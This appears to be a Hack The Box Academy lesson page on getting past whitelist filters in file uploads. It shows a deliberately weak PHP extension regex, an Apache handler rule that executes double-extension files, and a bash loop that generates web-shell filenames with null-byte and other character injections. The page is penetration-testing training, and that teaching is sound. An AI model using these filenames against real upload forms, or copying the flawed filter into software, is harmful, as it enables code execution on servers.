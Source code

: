 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/136/section/1289
// Platform Version: V1
// Module ID: 136
// Module Name: File Upload Attacks
// Module Difficulty: Medium
// Section ID: 1289
// Section Title: Whitelist Filters
// Page Title: File Upload Attacks
// Page Number: 6
-->

# Whitelist Filters

**Module Name:** File Upload Attacks **Page Number:** 6

#### FILE UPLOAD ATTACKS

# Whitelist Filters

## Whitelisting Extensions

``` php
$fileName = basename($_FILES["uploadFile"]["name"]);

if (!preg_match('^.*\.(jpg|jpeg|png|gif)', $fileName)) {
    echo "Only images are allowed";
    die();
}
```

## Double Extensions

``` php
if (!preg_match('/^.*\.(jpg|jpeg|png|gif)$/', $fileName)) { ...SNIP... }
```

## Reverse Double Extension

``` xml
<FilesMatch ".+\.ph(ar|p|tml)">
    SetHandler application/x-httpd-php
</FilesMatch>
```

## Character Injection

``` bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

# 

# 

#### Questions

####